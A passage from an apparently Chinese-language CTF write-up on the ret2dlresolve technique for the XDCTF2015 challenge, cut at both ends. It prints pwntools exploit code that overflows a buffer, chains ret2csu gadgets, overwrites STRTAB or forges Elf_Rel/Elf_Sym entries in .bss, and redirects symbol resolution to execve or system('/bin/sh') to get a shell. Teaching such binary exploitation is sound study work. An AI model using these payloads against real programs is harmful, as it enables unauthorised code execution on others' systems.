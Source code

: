 ```python
    payload += p64(fun)    # pop r12
    payload += p64(edi)    # pop r13
    payload += p64(rsi)    # pop r14
    payload += p64(rdx)    # pop r15
    payload += p64(csu_part1)
    payload += p64(0) * 7
    return payload

p.recvuntil('Welcome to XDCTF2015~!\n')

# 修改STRTAB的值指向bss段
p.send(b'a' * 120 + csu(read_got, 0, STRTAB, 8) + p64(vuln_addr))
p.send(p64(bss_addr - 0x11))

# 在bss段写入伪造的字符串
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, 7 + 8) + p64(vuln_addr))
p.send(b'execve\x00/bin/sh\x00')

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 120 + p64(dl) + p64(vuln_addr))

# 调用execve
p.send(b'a' * 120 + csu(strlen_got, bss_addr + 7, 0, 0) + p64(vuln_addr))

p.interactive()
```

### Partial RELRO

#### 32位

[main_partial_relro_32](./elf/main_partial_relro_32)
既然开启了`Partial RELRO`我们就没办法去修改`.dynamic`中的`STRTAB`
但是在调用`_dl_runtime_resolve`时是通过`l`和`reloc_arg`这两个参数去寻找我们的函数，这里我们伪造`reloc_arg`这个参数:

- 修改`reloc_arg`使`.rel.plt` + `reloc_arg`的地址为我们伪造的Elf_Rel
- 通过伪造的Elf_Rel找到我们伪造的Elf_Sym
- 通过伪造的Elf_Sym找到我们伪造的字符串

我们在bss段中伪造`Elf_Rel`，`Elf_Sym`和字符串

```python
# 伪造JMPREL
payload    = p32(strlen_got) + p32((int((bss_addr + 0x8 + 0xC - SYMTAB) / 0x10) << 8) | 0x07)
# 伪造SYMTAB
payload    += b'a' * 0xC + p32(bss_addr + 0x8 + 0xC + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)
# system和/bin/sh字符串
payload    += b'system\x00/bin/sh\x00'
```

然后push`_dl_runtime_resolve`的第二个参数为`.rel.plt`到伪造的`Elf_Rel`的偏移，最终的payload如下:
